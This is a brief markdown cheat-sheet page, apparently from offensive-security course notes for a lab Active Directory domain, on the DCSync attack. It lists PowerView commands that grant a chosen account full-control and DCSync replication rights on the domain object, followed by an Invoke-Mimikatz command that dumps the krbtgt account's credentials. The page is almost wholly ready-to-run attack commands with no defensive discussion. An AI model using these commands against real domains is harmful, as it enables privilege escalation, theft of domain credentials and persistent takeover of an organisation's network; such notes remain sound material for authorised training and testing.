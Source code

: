 # 2⃣ DCsync

### **Add full-control rights**

{% code overflow="wrap" %}
```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,DC=local’ -PrincipalSamAccountName <username> -Rights All -Verbose
```
{% endcode %}

### **Add rights for DCsync**

{% code overflow="wrap" %}
```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,Dc=local’ -PrincipalSamAccountName <username> -Rights DCSync -Verbose
```
{% endcode %}

### **Execute DCSync and dump krbtgt**

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```
